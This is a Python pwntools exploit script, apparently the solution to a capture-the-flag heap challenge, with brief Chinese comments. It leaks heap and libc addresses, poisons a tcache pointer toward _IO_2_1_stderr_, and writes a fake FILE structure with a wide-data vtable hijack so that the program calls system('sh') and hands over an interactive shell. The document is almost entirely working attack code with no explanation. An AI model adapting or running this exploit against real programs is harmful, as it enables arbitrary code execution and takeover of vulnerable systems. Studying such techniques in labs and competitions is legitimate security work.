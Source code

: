 ```Python
p.sendlineafter("input size:",str(0))
show(0)
heapbase=u64(p.recv(5).ljust(8,b'\x00'))<<12
print(hex(heapbase))

#泄露libcbase
for i in range(8):
    add(i,0xa0,b'a')
add(8,0x20,b'a')
for i in range(8):
    delete(i)
# dbg()
for i in range(7):
    add(i,0xa0,b'a')

add(7,0x60,b'\xe0')
show(7)
# dbg()
libcbase=u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))-0x21ace0-0x100
print(hex(libcbase))
add(7,0x30,b'a')

add(0,0x20,b'a')
add(1,0x300,b'a')
add(2,0x300,b'a')
add(3,0x20,b'a')
delete(2)
delete(1)

IO_2_1_stderr=libcbase+libc.sym['_IO_2_1_stderr_']
# dbg()
edit(0,b'a'*0x20+p64(0)+p64(0x301)+p64( ((heapbase+0x8c0)>>12)^ IO_2_1_stderr) )

rdi=libcbase+0x000000000002a3e5
rsi=libcbase+0x000000000002be51
rdxr12=libcbase+0x11f2e7
ret=libcbase+0x29139
system_addr=libcbase+libc.sym['system']
payload= b'  sh;\x00\x00\x00'+p64(0)
payload += p64(0) + p64(system_addr) + p64(1) + p64(2) #这样设置同时满足fsop
payload = payload.ljust(0x48, b'\x00') + p64(heapbase) #FAKE FILE+0x48
payload = payload.ljust(0xa0, b'\x00') + p64(heapbase+0x8d0) #_wide_data
payload = payload.ljust(0xd8, b'\x00') + p64(libcbase + libc.sym['_IO_wfile_jumps']) #vtable=_IO_wfile_jumps

wide_data=b'\x00'
wide_data=wide_data.ljust(0x68,b'\x00')
wide_data+=p64(system_addr)
wide_data=wide_data.ljust(0xe0,b'\x00')
wide_data+=p64(heapbase+0x8d0)
# dbg()
add(1,0x300,wide_data)
add(2,0x300,payload)

p.sendlineafter(menu,str(1))
p.sendlineafter("input idx:",str(0))
p.sendlineafter("input size:",str(0x500))

p.interactive()
```
